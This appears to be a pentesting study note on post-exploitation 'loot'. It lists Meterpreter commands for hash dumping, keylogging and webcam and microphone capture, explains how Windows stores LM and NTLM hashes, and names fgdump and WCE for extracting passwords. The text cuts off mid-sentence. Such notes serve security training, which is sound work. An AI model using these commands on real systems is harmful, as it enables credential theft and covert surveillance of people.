 # Loot

If you have a meterpreter shell you are able to do a lot of thing with very little effort.


Show help of all commands:
```
-h
```

Dump windows hashes for further analysis
```
hashdump
```

Keylogger
```
keysscan_start
keyscan_dump
keyscan_stop
```

Webcam commands
```
record_mic     Record audio from the default microphone for X seconds
webcam_chat    Start a video chat
webcam_list    List webcams
webcam_snap    Take a snapshot from the specified webcam
webcam_stream  Play a video stream from the specified webcam
```


## Dumping password on windows

This most likely requires administrative rights.

Windows stores passwords in SAM - Security Account Manager. Passwords are stored differently depending on the operating system. Up until (and including) Windows 2003 stored the passwords in LAN Manager (LM) and NT LAN Manager (NTLM). LM is incredibly insecure.From windows vista and on the system does not use LM, only NTLM. So it is a bit more secure.

**LM and NTLM >= Windows 2003
NTLM > Windows vista**

### fgdump.exe

We can use fgdump.exe (locate fgdump.exe on kali) to extract NTLM and LM Password hashes. Run it and there is a file called 127.0.0.1.pwndump where the hash is saved. Now you can try to brute force it. 


### Windows Credencial Editor (WCE)

WCE can steal NTLM passwords from memory in cleartext!

You
